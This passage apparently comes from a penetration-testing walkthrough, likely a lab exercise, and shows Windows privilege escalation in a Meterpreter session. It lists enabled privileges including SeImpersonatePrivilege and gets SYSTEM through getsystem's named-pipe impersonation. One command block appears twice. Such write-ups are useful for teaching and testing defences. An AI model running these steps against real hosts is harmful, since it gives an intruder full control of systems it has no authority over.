 ```
01/09/2025  07:07 AM    <DIR>          config
01/04/2022  03:37 AM    <DIR>          Configuration
08/18/2014  10:23 AM    <DIR>          cs-CZ
03/18/2014  10:23 AM    <DIR>          da-DK
```

```bash
# Try to access config directory
cd config
```

**Access Denied:**
```
C:\Windows\System32>cd config
cd config
Access is denied.
```

#### Step 3: Privilege Escalation
Return to Meterpreter session and escalate privileges:

```bash
# Return to Meterpreter (Ctrl + C)
# Check current privileges
getprivs
```

```bash
# Return to Meterpreter (Ctrl + C)
# Check current privileges
getprivs
```

**Privilege Output:**
```
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
```

```bash
# Escalate to SYSTEM privileges
getsystem
```

**Privilege Escalation:**
```
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
```
